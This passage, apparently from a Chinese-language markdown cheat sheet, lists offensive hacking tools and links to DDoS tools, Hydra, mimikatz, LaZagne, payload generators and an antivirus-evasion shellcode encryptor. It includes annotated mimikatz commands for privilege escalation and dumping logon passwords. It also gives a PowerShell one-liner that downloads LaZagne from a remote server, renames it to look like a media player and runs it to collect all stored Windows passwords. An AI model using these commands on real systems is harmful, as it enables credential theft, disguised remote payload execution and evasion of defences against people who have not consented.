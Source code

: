     https://github.com/gkbrk/slowloris
    https://github.com/epsylon/ufonet


### Hydra(密码破解工具,在线破解多种密码)
```
http://www.thc.org/thc-hydra
```

### mimikatz (windows密码获取神器)
```
https://github.com/gentilkiwi/mimikatz
load mimikatz msf调用
cls-----------------------------清屏
exit----------------------------退出
version------------查看mimikatz的版本
system::user-----查看当前登录的系统用户
system::computer-------查看计算机名称
process::list------------------列出进程
process::suspend 进程名称 -----暂停进程
process::stop 进程名称---------结束进程
process::modules --列出系统的核心模块及所在位置
service::list---------------列出系统的服务
service::remove-----------移除系统的服务
service::start stop 服务名称--启动或停止服务
privilege::list---------------列出权限列表
privilege::enable--------激活一个或多个权限
privilege::debug-----------------提升权限
nogpo::cmd------------打开系统的cmd.exe
nogpo::regedit -----------打开系统的注册表
nogpo::taskmgr-------------打开任务管理器
ts::sessions-----------------显示当前的会话
ts::processes------显示进程和对应的pid情况等
sekurlsa::wdigest-----获取本地用户信息及密码
sekurlsa::tspkg------获取tspkg用户信息及密码
sekurlsa::logonPasswords--获登陆用户信息及密码
```
### LaZagne（windows本地存储密码检测）
```
https://github.com/AlessandroZ/laZagne/
```
![](https://user-images.githubusercontent.com/10668373/43320585-3e34c124-91a9-11e8-9ebc-d8eabafd8ac5.png)
 LaZagne 一键抓取windows所有密码
```bash
//运行powershell 从vps远程下载lazagne并运行
(echo powershell "($client = new‐object System.Net.WebClient) ‐and($client.DownloadFile('http://www.huihun.ml/laZagne.exe','wmplaye.exe')) ‐and (exit)") | cmd && wmplaye.exe all
```
### WinPayloads(Windows payload生成)与CHAOS（go语言）
![](7.png)
     git clone https://github.com/nccgroup/winpayloads.git
![](https://github.com/tiagorlampert/CHAOS/raw/master/content/screenshot.gif)
  ```
   https://github.com/tiagorlampert/CHAOS.git
  ```
### AVIator
AVIator共有三个表单：分别存放用于加密shellcode的加密密钥的文本，AES加密的IV的文本和shellcode的文本。
   ![](https://image.3001.net/images/20191108/1573202128_5dc528d010345.png!small)
    https://github.com/Ch0pin/AVIator.git
### 新一代webshell管理工具